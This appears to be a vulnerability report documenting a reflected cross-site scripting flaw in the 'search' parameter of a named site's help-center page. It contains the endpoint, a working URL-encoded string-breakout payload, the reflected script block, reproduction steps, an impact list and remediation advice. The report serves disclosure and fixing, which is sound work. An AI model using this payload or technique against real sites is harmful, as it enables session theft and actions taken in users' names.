


## Title

Reflected Cross-Site Scripting (XSS) via `search` Parameter in Search Functionality

---

## Vulnerability Type

Reflected XSS

---

## Summary

The `search` parameter used in the Help Center search functionality is reflected directly into a JavaScript context without proper sanitization or output encoding.

Because the application injects user-controlled input inside a `<script>` block, an attacker can break out of the intended string context and execute arbitrary JavaScript in the browser of any user who visits a crafted malicious URL.

The vulnerability specifically occurs inside the analytics tracking function:

```javascript id="2it2bm"
internalSearchTerm: ""+alert("xicorr55.php")+"",
```

This confirms that user input is embedded directly into executable JavaScript code.

<div align="center">

### Screenshot 1 — Payload Reflected Inside JavaScript Context



<br><br>

<em>User-controlled input reflected directly inside the JavaScript context without sanitization.</em>

</div>

---

## Vulnerable Endpoint

```http id="7k2t7x"
https://kzlabs.com/55.php
```

### Vulnerable Parameter

```http id="3rth4s"
search
```

---

## Steps to Reproduce

1. Open the following URL in a browser:

```http id="z2uskn"
https://kzlabs.com/55.php?search=%22%2Balert(%22xicorr55.php%22)%2B%22
```

2. Observe that a JavaScript alert box appears immediately when the page loads.

3. View page source or inspect the DOM.

4. Notice that the payload is reflected directly inside a JavaScript object without any sanitization.


---

## Payload Used

```javascript id="zsjz5d"
"+alert("xicorr55.php")+"
```

---

## Proof of Concept

The application reflects the payload directly into the following script block:

```javascript id="1k7um5"
window.onload = function(e) {
    Analytics.trackEvent('searchReturned', {
        internalSearchTerm: ""+alert("xicorr55.php")+"",
        numOfSearchResultsReturned: 5
    });
}
```

Because the payload breaks out of the intended string context, arbitrary JavaScript executes successfully in the victim’s browser.

<div align="center">

### Screenshot 2 — Alert Popup Triggered



<br><br>

<em>Payload execution successfully triggers a JavaScript alert.</em>

</div>

---

## Impact

An attacker can craft a malicious URL that executes arbitrary JavaScript in the browser of any victim who visits the link.

This may allow an attacker to:

* Steal authenticated session tokens
* Perform actions on behalf of users
* Modify page content dynamically
* Conduct phishing attacks using trusted application context
* Target privileged or administrative users

Since the payload executes automatically on page load, exploitation requires only that the victim opens the crafted URL.

---

## Remediation

* Never inject unsanitized user input directly into JavaScript contexts
* Properly encode user-controlled data before rendering it inside `<script>` blocks
* Use safe serialization methods such as `JSON.stringify()`
* Implement contextual output encoding
* Consider deploying a strict Content Security Policy (CSP) to reduce XSS impact
* Validate and sanitize all incoming input server-side before processing or rendering it back to users
